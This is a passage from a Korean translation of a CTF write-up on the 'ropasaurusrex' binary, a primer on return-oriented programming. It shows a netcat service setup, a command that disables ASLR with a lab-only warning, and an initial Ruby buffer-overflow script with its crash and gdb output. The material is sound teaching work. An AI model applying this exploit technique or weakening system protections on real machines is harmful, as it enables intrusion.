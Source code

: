 
가장 먼저 해야 할 일은 `ropasaurusrex`를 네트워크 서비스로 실행시키는 겁니다.
CTF 주최 측은 [xinetd][]를 썼지만, 우리는 우리의 목적에 알맞은 [netcat][]을 쓸
겁니다.

[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat

``` sh
$ while true; do nc -vv -l -p 4444 -e ./ropasaurusrex; done
listening on [any] 4444 ...
```


이제부터 `localhost:4444`를 취약점 공격 대상으로 쓸 수도 있고, 실제 서버에도
작용하는지 테스트 할 수도 있습니다.


ASLR을 끄고 싶다면 다음을 실행하세요.

``` sh
$ sudo sysctl -w kernel.randomize_va_space=0
```


이건 당신의 시스템을 공격당하기 쉽게 만든다는 것에 유의하세요. 그러니 이걸
실험실 환경 바깥에서 하는 건 추천하지 않습니다!


취약점 공격 스크립트의 초기 버전을 작성한 루비 코드입니다.

``` ruby
$ cat ./sploit.rb
require 'socket'

s = TCPSocket.new("localhost", 4444)

# Generate the payload
payload = "A"*140 +
  [
    0x42424242,
  ].pack("I*") # Convert a series of 'ints' to a string

s.write(payload)
s.close()
```


`ruby ./sploit.rb`를 통해 실행시키면 서비스 크래시를 볼 겁니다.

``` sh
connect to [127.0.0.1] from debian-x86.skullseclabs.org [127.0.0.1] 53451
Segmentation fault (core dumped)
```


그리고 gdb를 통해 이게 알맞은 위치에서 크래시를 일으키는지 확인할 수 있습니다.

``` sh
gdb --quiet ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump